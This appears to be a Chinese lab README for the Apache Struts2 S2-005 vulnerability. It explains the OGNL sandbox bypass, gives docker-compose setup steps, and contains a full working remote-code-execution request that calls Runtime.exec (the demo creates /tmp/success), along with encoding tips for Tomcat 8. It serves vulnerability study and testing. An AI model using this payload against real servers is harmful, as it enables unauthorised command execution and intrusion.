 ````markdown

触发漏洞就是利用了这个点，再配合OGNL的沙盒绕过方法，组成了S2-003。官方对003的修复方法是增加了安全模式（沙盒），S2-005在OGNL表达式中将安全模式关闭，又绕过了修复方法。整体过程如下：

- S2-003 使用`\u0023`绕过s2对`#`的防御
- S2-003 后官方增加了安全模式（沙盒）
- S2-005 使用OGNL表达式将沙盒关闭，继续执行代码

## 环境

执行以下命令启动s2-001测试环境

```
docker-compose build
docker-compose up -d
```

## POC && EXP

执行任意命令POC（无回显，空格用`@`代替）：

```
GET /example/HelloWorld.action?(%27%5cu0023_memberAccess[%5c%27allowStaticMethodAccess%5c%27]%27)(vaaa)=true&(aaaa)((%27%5cu0023context[%5c%27xwork.MethodAccessor.denyMethodExecution%5c%27]%5cu003d%5cu0023vccc%27)(%5cu0023vccc%5cu003dnew%20java.lang.Boolean(%22false%22)))&(asdf)(('%5cu0023rt.exec(%22touch@/tmp/success%22.split(%22@%22))')(%5cu0023rt%5cu003d@java.lang.Runtime@getRuntime()))=1 HTTP/1.1
Host: target:8080
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_11_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/57.0.2987.98 Safari/537.36


```

网上一些POC放到tomcat8下会返回400，研究了一下发现字符`\`、`"`不能直接放path里，需要urlencode，编码以后再发送就好了。这个POC没回显。

POC用到了OGNL的Expression Evaluation：

![](1.jpeg)

大概可以理解为，`(aaa)(bbb)`中aaa作为OGNL表达式字符串，bbb作为该表达式的root对象，所以一般aaa位置如果需要执行代码，需要用引号包裹起来，而bbb位置可以直接放置Java语句。`(aaa)(bbb)=true`实际上就是`aaa=true`。不过确切怎么理解，还需要深入研究，有待优化。

期待大佬研究出有回显的POC。
````

上方payload在/tmp路径下新建success文件

tips: 进入正在运行的docker的命令是

```bash
sudo docker exec -it s2-005_struts2_1 /bin/bash
```
